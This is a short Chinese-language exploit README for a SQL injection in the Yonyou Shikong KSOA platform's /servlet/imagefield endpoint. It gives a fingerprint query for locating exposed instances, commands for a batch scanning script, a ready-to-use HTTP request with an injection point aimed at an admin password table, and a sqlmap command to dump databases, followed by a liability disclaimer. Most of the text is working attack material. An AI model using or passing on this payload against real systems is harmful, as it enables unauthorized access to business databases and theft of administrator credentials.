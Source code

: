 # 用友时空KSOA平台 SQL注入

用友时空KSOA平台 /servlet/imagefield 存在SQL注入漏洞，攻击者可利用该漏洞获取数据库敏感信息。


## 指纹

app="用友-时空KSOA"

## 工具利用

python3 KSOAimagefield_sqlscan.py -u http://127.0.0.1:1111 单个url测试

python3 KSOAimagefield_sqlscan.py -f url.txt 批量检测

扫描结束后会在当前目录生成存在漏洞url的vuln.txt

poc：

![](./poc.jpg)

![](./poc2.jpg)

## exp：

将数据包保存为txt用sqlmap可得到数据
```
GET /servlet/imagefield?key=readimage&sImgname=password&sTablename=bbs_admin&sKeyname=id&sKeyvalue=1* HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.969.139 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close

```

sqlmap -r sql.txt --dbs

![](./exp.jpg)
## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

